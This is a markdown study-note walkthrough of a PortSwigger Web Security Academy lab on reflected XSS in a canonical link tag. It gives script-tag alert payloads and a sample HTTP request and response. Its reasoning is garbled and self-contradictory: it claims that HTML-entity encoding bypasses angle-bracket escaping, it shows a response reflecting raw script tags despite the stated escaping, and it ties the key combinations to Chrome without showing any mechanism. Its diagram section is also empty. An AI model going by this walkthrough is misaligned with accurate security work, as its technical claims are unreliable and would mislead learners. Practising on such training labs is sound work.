

## Detailed Walkthrough of the Lab

### Accessing the Lab

To access the lab, follow these steps:

1. Visit the URL: [PortSwigger Web Security Academy](https://portswigger.net/web-security).
2. Click on the sign-up button to create an account.
3. Once logged in, navigate to the Academy section.
4. Select all labs and search for "cross-site scripting".
5. Locate lab number 20 titled "Reflected XSS and Canonical Link Tag".

### Understanding the Vulnerability

The lab reflects user input in a canonical link tag and escapes angle brackets (`<` and `>`). However, the escaping mechanism is incomplete, allowing for the injection of a script.

### Crafting the Payload

To exploit this vulnerability, we need to craft a payload that injects a script into the canonical link tag. The payload should trigger an `alert` function when certain key combinations are pressed.

#### Key Combinations

The lab specifies the following key combinations:

- `alt + shift + x`
- `control + alt + x`
- `alt + x`

These key combinations are used to ensure that the payload is only executed in Chrome.

### Injecting the Payload

Let's craft the payload step-by-step:

1. **Identify the Injection Point**: The canonical link tag is the injection point.
2. **Craft the Payload**: We need to inject a script that triggers an `alert` function.

```html
<link rel="canonical" href="https://example.com/page?callback=<script>alert('XSS');</script>">
```

However, since the angle brackets are escaped, we need to find a way to bypass this protection.

#### Bypassing Angle Bracket Escaping

One common technique is to use HTML entities to represent the angle brackets.

```html
<link rel="canonical" href="https://example.com/page?callback=&lt;script&gt;alert('XSS');&lt;/script&gt;">
```

This payload uses HTML entities (`&lt;` and `&gt;`) to represent the angle brackets, bypassing the escaping mechanism.

### Testing the Payload

To test the payload, we need to send a request to the server and observe the response.

#### HTTP Request

```http
GET /page?callback=%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Connection: close
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 01 Mar 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Example Page</title>
    <link rel="canonical" href="https://example.com/page?callback=<script>alert('XSS');</script>">
</head>
<body>
    <h1>Welcome to the Example Page</h1>
</body>
</html>
```

### Observing the Result

When the victim visits the crafted URL, the injected script is executed, leading to an `alert` box appearing on the screen.

### Mermaid Diagrams

#### Attack Chain Diagram



---
<!-- nav -->
[[04-Detailed Exploit Walkthrough|Detailed Exploit Walkthrough]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/21-Lab 20 Reflected XSS in canonical link tag/00-Overview|Overview]] | [[06-How to Prevent  Defend Against XSS|How to Prevent  Defend Against XSS]]
